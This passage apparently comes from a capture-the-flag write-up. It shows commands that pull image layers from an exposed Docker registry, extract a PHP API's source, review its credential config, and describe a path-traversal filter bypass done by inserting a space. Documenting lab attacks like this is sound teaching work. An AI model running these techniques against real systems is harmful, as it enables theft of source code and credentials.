 ~~~zsh
# List images
curl -i http://localhost:5000/v2/_catalog

# Download manifest for cybermonday_api:latest
curl http://localhost:5000/v2/cybermonday_api/manifests/latest | tee latest.manifest

# Dump filesystem layers
mkdir blobs
for blob in $(jq -r ".fsLayers[].blobSum" ./latest.manifest | awk '!x[$0]++'); do
  curl "http://localhost:5000/v2/cybermonday_api/blobs/$blob" -o blobs/$blob.tgz
done

# Search through filesystem layers for relevant files
for f in $(ls blobs); do
  tar -tzf blobs/$f | egrep -i var/www >/dev/null | sed "s/^/$f /"
done | grep "app/"
~~~
{:file="bryan@redteam ➤ zsh" .nolineno}

A bunch of custom PHP application sources were found at `/var/www/html/app`{:.filepath} in `blobs/sha256:ced3ae14*.tgz`{:.filepath}. We began to look for important secrets or exploitable bugs within the API source.

~~~zsh
# Extract specific filesystem layer to new directory
mkdir ./cybermonday_api && cd ./cybermonday_api
tar -xzf ../blobs/sha256:ced3ae14*.tgz
cd ./var/www/html
~~~
{:file="bryan@redteam ➤ zsh" .nolineno}


### API Code Review

We found out that `config.php`{:.filepath} gathers a few important variables from the environment including some database credentials that would be of interest to us.

~~~php
return [
    "dbhost" => getenv('DBHOST'),
    "dbname" => getenv('DBNAME'),
    "dbuser" => getenv('DBUSER'),
    "dbpass" => getenv('DBPASS')
];
~~~
{:file="config.php" .nolineno}

We also found that `app/routes/Router.php`{:.filepath} maps a previously unknown route, `POST /webhooks/:uuid/logs`, to the **LogsController** class. We took a look at `app/controllers/LogsController.php`{:.filepath} since this was new content. 


#### Local File Read

The **LogsController** class was affected by a bug allowing us to read local files. The "read" action appeared to look for `../`{:.filepath} sequences THEN removed spaces. Because of this, we could simply position a space between two characters to bypass that rule.

